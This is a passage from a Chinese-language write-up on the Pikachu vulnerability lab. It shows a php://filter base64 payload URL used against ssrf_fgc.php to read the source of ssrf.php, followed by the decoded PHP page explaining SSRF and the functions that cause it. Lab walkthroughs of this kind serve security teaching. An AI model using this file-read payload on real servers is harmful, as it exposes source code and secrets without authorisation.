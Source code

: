 这里其实我们已经得到了 `ssrf.php` 的文件，但是我们并不希望它被解析，而是希望拿到 `ssrf.php` 的源码，做法是先把它加密成 base64，然后再解密，修改 URL 为：

`http://175.178.126.31:8083/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-
encode/resource=ssrf.php`

![](http://img.wukaipeng.com/2023/11/05-102212-image-20231105102212467.png)

用 [Base64 解密工具](https://t.he3app.com/dt46) 解密得到：

```php
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "ssrf.php"){
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR.'header.php';






?>


<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="ssrf.php"></a>
                </li>
                <li class="active">概述</li>
            </ul>
        </div>
        <div class="page-content">

         <b>SSRF(Server-Side Request Forgery:服务器端请求伪造)</b>
         <p>其形成的原因大都是由于服务端<b>提供了从其他服务器应用获取数据的功能</b>,但又没有对目标地址做严格过滤与限制</p>
            导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据<br>
            <br>
            数据流:攻击者----->服务器---->目标地址<br>
            <br>
            根据后台使用的函数的不同,对应的影响和利用方法又有不一样
            <pre style="width: 500px;">
PHP中下面函数的使用不当会导致SSRF:
file_get_contents()
fsockopen()
curl_exec()
            </pre><br>
```